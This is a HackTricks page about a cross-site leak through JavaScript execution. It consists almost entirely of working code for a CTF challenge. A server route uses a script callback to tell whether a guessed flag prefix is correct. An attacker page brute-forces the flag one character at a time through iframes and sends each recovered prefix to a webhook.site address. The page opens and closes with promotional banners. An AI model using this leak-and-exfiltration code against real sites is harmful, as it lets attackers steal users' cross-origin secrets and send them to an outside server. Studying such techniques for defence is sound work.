 # JavaScript Execution XS Leak

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

```javascript
// Code that will try ${guess} as flag (need rest of the server code
app.get('/guessing', function(req, res) {
    let guess = req.query.guess
    let page = `<html>
                <head>
                    <script>
                            function foo() {
                                // If not the flag this will be executed
                                window.parent.foo()
                            }
                        </script>
                    <script src="https://axol.space/search?query=${guess}&hint=foo()"></script>
                </head>
                <p>hello2</p>
                </html>`
    res.send(page)
});
```

Main page that generates iframes to the previous `/guessing` page to test each possibility

```html
<html>
<head>
    <script>
            let candidateIsGood = false;
            let candidate = ''
            let flag = 'bi0sctf{'
            let guessIndex = -1

            let flagChars = '_0123456789abcdefghijklmnopqrstuvwxyz}ABCDEFGHIJKLMNOPQRSTUVWXYZ'

            // this will get called from our iframe IF the candidate is WRONG
            function foo() {
                candidateIsGood = false
            }

            timerId = setInterval(() => {
                if (candidateIsGood) {
                    flag = candidate
                    guessIndex = -1
                    fetch('https://webhook.site/<yours-goes-here>?flag='+flag)
                }
                
                //Start with true and will be change to false if wrong
                candidateIsGood = true
                guessIndex++
                if (guessIndex >= flagChars.length) {
                    fetch('https://webhook.site/<yours-goes-here>')
                    return
                }
                let guess = flagChars[guessIndex]
                candidate = flag + guess
                let iframe = `<iframe src="/guessing?guess=${encodeURIComponent(candidate)}"></iframe>`
                console.log('iframe: ', iframe)
                hack.innerHTML = iframe
            }
            , 500);
        </script>
</head>
<p>hello</p>
<div id="hack">
</div>
</html>
```

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
